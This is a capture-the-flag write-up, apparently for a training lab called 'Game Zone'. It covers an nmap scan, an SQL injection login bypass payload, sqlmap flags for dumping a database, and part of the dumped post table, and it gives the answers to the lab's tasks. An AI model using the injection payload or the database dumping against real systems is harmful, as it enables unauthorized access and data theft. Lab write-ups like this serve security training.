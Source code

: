 # Game Zone

---

IP = `10.10.174.58`


```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Task 1 - Deploy the vulnerable machine

> What is the name of the large cartoon avatar holding a sniper on the forum?

`Agent 47`

## Task 2 - Obtain access via SQLi

`SELECT * FROM users WHERE username = admin AND password := ' or 1=1 -- -`

> When you've logged in, what page do you get redirected to?

`portal.php`

## Task 3 - Using SQLMap

![](https://i.imgur.com/ox4wJVH.png)

![](https://i.imgur.com/W5boKpk.png)

- -r uses the intercepted request you saved earlier
- --dbms tells SQLMap what type of database management system it is
- --dump attempts to outputs the entire database

```
Database: db
Table: post
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name                           | description                                                                                                                                                                                            |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
| 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005                     | Best game ever                                                                                                                                                                                         |
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
```